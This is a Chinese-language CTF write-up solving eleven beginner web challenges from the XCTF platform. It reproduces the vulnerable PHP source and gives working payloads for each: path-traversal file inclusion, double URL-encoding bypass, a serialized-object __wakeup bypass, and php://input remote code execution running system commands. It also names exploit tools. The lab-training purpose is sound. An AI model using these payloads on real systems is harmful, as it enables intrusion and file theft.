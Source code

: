 # 攻防世界web前11题WP


### baby_web

进去之后发现是/1.php,根据提示“初始页面”，用burpsuite截获index.php，获得flag。
知识点：网页初始页面的文件名一般为index。

### warmup

进去之后发现一个滑稽表情，用burpsuite截获数据包后发现有个source.php，打开之后发现页面源代码。
```php
<?php
    highlight_file(__FILE__);
    class emmm
    {
        public static function checkFile(&$page)
        {
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            if (! isset($page) || !is_string($page)) {//page必须被设置且page必须是字符串，否则将被过滤
                echo "you can't see it";
                return false;
            }

            if (in_array($page, $whitelist)) {//如果page在白名单内则合法
                return true;
            }

            $_page = mb_substr(//mb_substr(str,start,length)截取字符串中的一段
                $page,
                0,
                mb_strpos($page . '?', '?')//查找'?'在page中首次出现的位置
            );//将page问号之后的内容截掉
            if (in_array($_page, $whitelist)) {//若此时的page在白名单内则合法
                return true;
            }

            $_page = urldecode($page);
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

    if (! empty($_REQUEST['file'])//_REQUEST是post和get的集合
        && is_string($_REQUEST['file'])
        && emmm::checkFile($_REQUEST['file'])//要求file也满足上面的要求
    ) {
        include $_REQUEST['file'];
        exit;
    } else {
        echo "<br><img src=\"https://i.loli.net/2018/11/01/5bdb0d93dc794.jpg\" />";
    }  
```
根据源代码得到提示，找到文件hint.php，得知flag在ffffllllaaaagggg这个文件里。再次进行代码审计,发现底下有个文件包包含，构造payload为：
http://111.200.241.244:60683/source.php?file=source.php?./../../../../ffffllllaaaagggg
就可以得到flag。

### Training-WWW-Robots

签到题，科普了一波robots.txt。

### PHP2

根据题目提示访问/index.phps获取提示信息：
```php
<?php
if("admin"===$_GET[id]) {//如果id全等于admin则会被过滤
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]);//id进行一次url解码
if($_GET[id] == "admin")
{
  echo "<p>Access granted!</p>";
  echo "<p>Key: xxxxxxx </p>";
}
?>

Can you anthenticate to this website?
```
构造id=%2561dmin使之在被两次urldecode后等于admin就可获得flag。

### Web_php_unserialize

又是一道反序列化的题。打开网页发现源代码。
```php
<?php 
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { //构造函数，赋值给file
        $this->file = $file; 
    }
    function __destruct() { //析构函数
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { // /i的意思是不区分大小写
        die('stop hacking!'); 
    } else {
        @unserialize($var); 
    } 
} else { 
    highlight_file("index.php"); 
} 
?>
```
当Demo被反序列化时，wakeup函数中的内容会被执行，通过构造类中成员属性数目大于实际数目绕过。
`var=O:4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}`
下面是对var变量的检查，用到了正则表达式，如果var符合开头`o:数字`的形式就会被过滤，这里采用`+`号过滤。
构造`var=O:+4:"Demo":2:{s:10:"\0Demo\0file";s:8:"fl4g.php";}`，再进行一次base64加密，构造payload传参即可得到flag。
注意Demofile中的\0，最好直接复制序列化之后的结果来改，不然特殊字符很容易出问题。

### php_rce

打开以后发现是个Thinkphp V5的介绍页面，说明要利用Thinkphp框架的漏洞。查阅kali linux自带的漏洞数据库即可获得hack的方法。

使用`searchsploit thinkphp``命令即可查询到可利用的漏洞。

然后远程代码执行，找到flag文件。

### Web_php_include

看题目应该是个文件包含。打开页面出一段代码。
```php
<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
while (strstr($page, "php://")) {
    $page=str_replace("php://", "", $page);
}
include($page);
?>
```
阅读代码发现，题目简单过滤了"php://"利用php大小写不敏感的特性，构造大写的pHp://绕过过滤。
使用php://input协议，远程执行代码：
```php
<?php
system("ls");
?>
```
和
```php
<?php
system("cat fl4gisisish3r3.php");
?>
```
获取flag。

### ics-06

签到。Burpsuite暴力跑字典破解。。。

### NewsCenter

注意到网站使用的Sql数据库，使用Sqlmap工具hack。
[sqlmap使用教程](https://www.vuln.cn/1992)

### NaNNaNNaNNaN-Batman

下载到一段代码：
```javascript
function $(){
    var
    e=document.getElementById("c").value;
    if(e.length==16)
        if(e.match(/^be0f23/)!=null)
            if(e.match(/233ac/)!=null)
                if(e.match(/e98aa$/)!=null){
                    if(e.match(/c7be9/)!=null){
                        var t=["fl","s_a","i","e}"];
                        var n=["a","_h0l","n"];
                        var r=["g{","e","_0"];
                        var i=["it'","_","n"];
                        var s=[t,n,r,i];
                        for(var o=0;o<13;++o){
                            document.write(s[o%4][0]);s[o%4].splice(0,1)
                        }
                    }
                }
}
```
js正则表达式审计，但其实可以直接把前面判断的代码删掉，再跑一下生成flag的那段获取flag。

### unserialize3

又一道反序列化，打开页面得到代码：
```php
class xctf{
public $flag = '111';
public function __wakeup(){
exit('bad requests');
}
?code=
```
这题和上道反序列化题相比完全是两个级别，直接将给的代码反序列化后，绕过wake_up即可得到flag。
